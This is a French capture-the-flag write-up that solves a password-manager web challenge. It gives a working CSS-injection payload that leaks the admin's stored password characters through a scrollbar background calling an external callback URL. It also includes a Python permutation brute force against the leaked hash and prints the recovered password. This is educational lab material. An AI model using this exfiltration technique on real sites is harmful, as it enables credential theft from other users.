







# Cloud Password Manager | ⭐⭐
Une entreprise de stockage de mots de passe dans le cloud vient se faire attaquer.

L'```admin``` étant injoignable, on vous demande d'estimer très rapidement si en l'état, il est possible de se connecter à son compte.

## Analyse de l'application

Pas de source pour ce challenge. Nous passons directement à l'application



Le site est composé d'une page d'accueil, avec un message des hackeurs.

La première information que nous pouvons récupèrer ici est le sha256 du mot de passe:

```sha256$FKM5MLhBFZ87pPgI$a51c4c0463d199fcf4a18bd8df2f40360c46e9caed05072618e8026f02dc83bf```

Nous apprenons aussi que l'admin a son mot de passe stocké sur sa page My Passwords

Lorsque nous accèdons aux pages "My Passwords" ou "Flag", une connexion est requise.



Après plusieurs tentatives de création de mot de passe, nous découvrons que la policy suivante est mise en place:

- 12 carcatères
- au moins 1 chiffre
- au moins 1 majuscule

Après avoir crée un compte, nous nous rendons sur la page "My Passwords"

Cette page permet de stocker des paires "nom/password"

et aussi de créer des styles css custom



Nous pouvons aussi envoyer le script à l'admin, qui le verifiera

# CSS Injection

Nous avons très certainement affaire à une exfiltration CSS, puisque nous savons que l'admin a son mot de passe stocké sur la page My Password.

Je ne passerais pas les détails d'une injection css, il y a beaucoup de contenu sur internet qui l'explique très bien

La première chose à regarder est si nous pouvons extraire du contenu interessant dans les balises/attributs



Malheureusement, le mot de passe est uniquement stocké dans l'HTML, et les balises n'ont pas l'air de contenir des informations intéressantes

Pendant mes recherches, je tombe sur cette page, qui regroupe plusieurs techniques d'exfiltration CSS
https://x-c3ll.github.io/posts/CSS-Injection-Primitives/

Une des solutions à l'air plutôt intéressante. Explication de l'exfiltration:

- Nous créons une nouvelle font-family (à partir d'une police locale, car une règle CSP nous empêche d'importer une police custom) qui affecte uniquement un seul caractère, par exemple 'a'

- Nous faisons en sorte que cette police est une taille très grande

- Nous appliquons cette police sur la balise #p1, qui contient le mot de passe à exfiltrer

- Si le mot de passe ne contient pas le caractère ciblé, la police ne se chargera pas. Par contre, si le mot de passe contient un 'a', alors la police s'appliquera sur ce caractère.

En ajoutant des règles css du style "no-wrap" et que l'on autorise l'overflow, cela aura pour effet de créer une scrollbar.

Si une scrollbar est présente, nous pouvons trigger une callback

Example du payload pour le caractère 'a'

```css
@font-face{
    font-family: hak; 
    src: url(/static/fonts/Georgia.ttf); 
    unicode-range:U+0061;
    size-adjust :50000%;
}
#p1{
    font-family: hak;
}
.toast-body{
    white-space: nowrap;
    overflow:auto;
}
.toast-body::-webkit-scrollbar {
    background: yellow;
}
.toast-body::-webkit-scrollbar:horizontal{
    background: url(https://callback/a);
}
```

Le ```background: yellow;``` est important, sinon l'url de la callback n'est jamais appellé

# Récapitulatif

Nous allons donc créer une police pour un caractère et si ce caractère est présent, la scrollbar apparait et appelle la callback.



Nous ne voyons pas la scrollbar, car le background s'est changé en l'url de la callback, qui ne retourne pas d'image

Cette technique nous permettera de leak tous les caractères présents dans le mot de passe, mais ils ne seront pas dans l'ordre, et nous n'aurons pas de moyen de detecter les doublons.

Je n'ai pas de meilleure piste, alors je m'y met

# Exploitation

Je ne voulais pas tester tous les caractères et envoyer les payloads 1 par 1 à la main, j'ai donc fais un script pour automatiser le tout. C'est un script très basique, qui envois un style, le submit pour l'admin, et attends quelques secondes avant d'envoyé le prochain.

La callback est sur un intercepteur en ligne. J'avais la flemme d'upload mon script sur un serveur et de gérer la callback



à la fin de l'execution, je n'avais pas 12 caractères. Je me suis rendu compte que j'envoyais mes payloads trop rapidement, et j'écrasais certains styles avant que l'admin passe dessus.

J'ai relancer mon script avec un temps de 20 secondes entre les payloads, pour être sur que l'admin passe sur tous (oui, le script a duré 20 minutes)

A la fin, j'ai bien leak 12 char (ouf, pas de char en double..): ```hkmquGIOST24```

Il ne reste plus qu'à retrouver l'ordre

# Ordre du password

Au tout début du challenge, nous avons pu récupérer le sha256 du mot de passe

Il nous suffit donc de faire un bruteforce avec toutes les permutations possible des caractères précédement trouvés, jusqu'à retomber sur ce hash

```py
from werkzeug.security import check_password_hash
from itertools import permutations
HASH = "sha256$FKM5MLhBFZ87pPgI$a51c4c0463d199fcf4a18bd8df2f40360c46e9caed05072618e8026f02dc83bf"
for p in permutations('hkmquGIOST24'):
    passw = ''.join(p)
    if check_password_hash(HASH, passw):
        print(passw)
        break
```

Au bout de plusieurs longues minutes, un mot de passe apparait: ```4mSIq2uGThOk```

Nous n'avons plus qu'à nous connecter sur le compte admin, et aller sur la page /flag

